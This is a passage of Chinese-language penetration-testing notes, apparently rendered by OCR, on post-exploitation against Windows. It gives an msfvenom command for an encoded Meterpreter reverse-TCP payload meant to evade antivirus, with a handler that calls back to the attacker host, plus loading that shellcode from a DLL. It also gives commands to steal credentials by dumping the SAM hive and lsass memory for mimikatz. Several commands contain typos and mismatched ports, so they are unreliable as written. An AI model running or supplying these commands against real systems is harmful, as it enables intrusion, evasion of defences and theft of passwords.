 ```mermaid
	D --> Shiro/Python脚本shio_vul.py
	D --> RMI
	D --> Jdwp
```

### 二、权限维持

#### 1、DLL文件加载shellcode免杀上线

```shell
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp_uuid LPORT=9999 LHOST=192.168.1.1 -e X86/shikata_ga_nai -i 11 -f c -o shellcode.c


msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp_uuid
msf > set lhost 192.168.1.1
msf > set lport 8888
msf > set EnableStageEncodeing true
msf > set StageEncoder X86/fnstenv_mov
msf > exploit
```

生成的shellcode放入下图代码中标记的位置

![image](11.png)

编译生成dll执行，成功上线

![image](12.png)

#### 2、注册表读取密码

正常我们一般使用mimikatz读取密码，但是一般查毒软件都会查杀，下面我们通过注册表读取密码绕过查杀

```
// 获取注册表信息
reg save HKLM\SYSTEM c:\windows\temp\Sys.hiv
reg save HKLM\SAM c:\windows\temp\Sam.hiv

// 获取注册表密码文件后下载至本机

// mimikatz运行解密命令获取hash NTLM ,然后通过MD5解密
mimikatz.exe
lsadump::sam /sam:Sam.hiv /system:Sys.hiv
```

![image](13.png)

#### 3、Lsass读取内存hash

lsass进程获取内存hash，lsass.exe进程会保存机器登录过的用户密码（2008之前密码是明文存储，2012和2016都是密文hash存储）

```
// 在目标机器上执行procdump.exe
procdumo.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp

// 在mimikatz中运行 结果保存在日志中
mimikatz.exe "sekurlas::minidump lsass.dmp" "log" "sekulsa::logonpasswords"
```
